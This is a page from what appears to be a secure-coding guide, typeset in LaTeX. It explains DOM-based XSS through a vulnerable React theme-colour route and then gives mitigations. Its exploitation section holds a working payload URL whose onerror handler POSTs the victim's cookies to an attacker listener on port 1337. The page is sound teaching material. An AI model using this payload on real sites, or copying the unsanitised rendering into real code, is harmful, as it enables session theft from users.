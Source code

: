 \documentclass[]{article}
\begin{document}
DOM-Based Cross-Site Scripting (XSS) is a type of XSS attack caused by improper handling of untrusted input on the client-side, rather than the server-side. This means the vulnerability exists within the client-side code (e.g., JavaScript) that manipulates the DOM, without any need to reach back to the web server. As standalone web applications become more prevalent, the importance of securing client-side code against DOM XSS has increased.

In a DOM XSS attack, the malicious script is injected and executed entirely within the browser, modifying the DOM to perform unauthorized actions or exfiltrate sensitive data.

\textbf{Vulnerable code:}
Consider the possibility for users to change the theme color. The vulnerable React code in \texttt{routes/changeTheme.js} retrieves the theme color (\texttt{themeChosen} variable) from the '\texttt{color}' URL parameter and displays it using the \texttt{dangerouslySetInnerHTML} property:

\begin{lstlisting}
<p style={{ marginTop: '20px' }}>You selected: <strong dangerouslySetInnerHTML={{__html:themeChosen}}></strong></p>
\end{lstlisting}

\textbf{Exploitation:}
An attacker can craft a malicious URL like this:

\begin{lstlisting}
http://localhost:3000/user/changeTheme?color=<audio src="" onerror="fetch('http://localhost:1337',{method:'POST',body:document.cookie})">
\end{lstlisting}

When a user visits this URL, the script executes and sends the user's cookies to the attacker's server listening on port 1337. The attacker can capture the cookies using netcat.

\textbf{Mitigation:}
To prevent DOM XSS vulnerabilities, it is essential to set cookies with the \texttt{HttpOnly: true} flag to prevent access to \texttt{document.cookie}, properly handle and sanitize all user inputs before they are used to manipulate the DOM, and avoid using \texttt{dangerouslySetInnerHTML}.

\subsubsection{Improper Neutralization of Directives in Dynamically Evaluated Code}
\label{subsubsec:improper_neutralization_of_directives_in_dynamically_evaluated_code}
\end{document}
